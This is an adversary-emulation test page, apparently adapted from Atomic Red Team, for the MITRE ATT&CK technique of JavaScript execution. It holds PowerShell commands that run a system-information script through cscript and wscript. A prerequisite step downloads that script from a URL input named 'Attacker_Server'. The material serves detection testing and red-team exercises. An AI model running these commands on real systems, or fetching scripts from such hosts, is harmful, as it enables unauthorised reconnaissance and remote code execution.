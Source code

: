 # T1059.007A - javascript
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/007)
<blockquote>Adversaries may abuse various implementations of JavaScript for execution. JavaScript (JS) is a platform-independent scripting language (compiled just-in-time at runtime) commonly associated with scripts in webpages, though JS can be executed in runtime environments outside the browser.[1]

JScript is the Microsoft implementation of the same scripting standard. JScript is interpreted via the Windows Script engine and thus integrated with many components of Windows such as the Component Object Model and Internet Explorer HTML Application (HTA) pages.[2][3][4]

JavaScript for Automation (JXA) is a macOS scripting language based on JavaScript, included as part of Apple’s Open Scripting Architecture (OSA), that was introduced in OSX 10.10. Apple’s OSA provides scripting capabilities to control applications, interface with the operating system, and bridge access into the rest of Apple’s internal APIs. As of OSX 10.10, OSA only supports two languages, JXA and AppleScript. Scripts can be executed via the command line utility osascript, they can be compiled into applications or script files via osacompile, and they can be compiled and executed in memory of other programs by leveraging the OSAKit Framework.[5][6][7][8][9]

Adversaries may abuse various implementations of JavaScript to execute various behaviors. Common uses include hosting malicious scripts on websites as part of a Drive-by Compromise or downloading and executing these script files as secondary payloads. Since these payloads are text-based, it is also very common for adversaries to obfuscate their content as part of Obfuscated Files or Information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - javascript execution to gather local computer information - cscript](#atomic-test-1---javascript-execution-to-gather-local-computer-information---cscript)

- [Atomic Test #2 - javascript execution to gather local computer information - wscript](#atomic-test-2---javascript-execution-to-gather-local-computer-information---wscript)

- [Atomic Test #3 - javascript execution to Web Brower](#atomic-test-3---javascript-execution-to-Web-Browser)

<br/>

## Atomic Test #1 - Javascript execution to gather local computer information - cscript
Javascript execution test, execute Javascript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.007A.out.txt.

**Supported Platforms:** Windows




#### Inputs:
| Name            | Description           | Type   | Default Value                                             |
| --------------- | --------------------- | ------ | --------------------------------------------------------- |
| javascript      | Path to sample script | String | PathToAtomicsFolder&#92;T1059.007A&#92;src&#92;sys_info.js |
| Attacker_Server | Attacker Server URL   | URL    |


#### Attack Commands: Run with `powershell`! 


```powershell
cscript #{javascript} > $env:TEMP\T1059.007A.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\sys_info.js -ErrorAction Ignore
Remove-Item $env:TEMP\T1059.007A.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{javascript})
##### Check Prereq Commands:
```powershell
if (Test-Path #{javascript}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "#{Attacker_Server}/atomic-red-team/master/atomics/A1059.007A/src/sys_info.js" -OutFile "$env:TEMP\sys_info.js"
New-Item -ItemType Directory (Split-Path #{javascript}) -Force | Out-Null
Copy-Item $env:TEMP\sys_info.js #{javascript} -Force
```

<br/>
<br/>

## Atomic Test #2 - Javascript execution to gather local computer information - wscript
Javascript execution test, execute Javascript with wscript.

When successful, system information will be pop up. after that user should click the OK button 4 times. 

**Supported Platforms:** Windows


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c wscript #{javascript}
```

## Atomic Test #3 - Javascript execution to Web Browser 
not yet available.

<br/>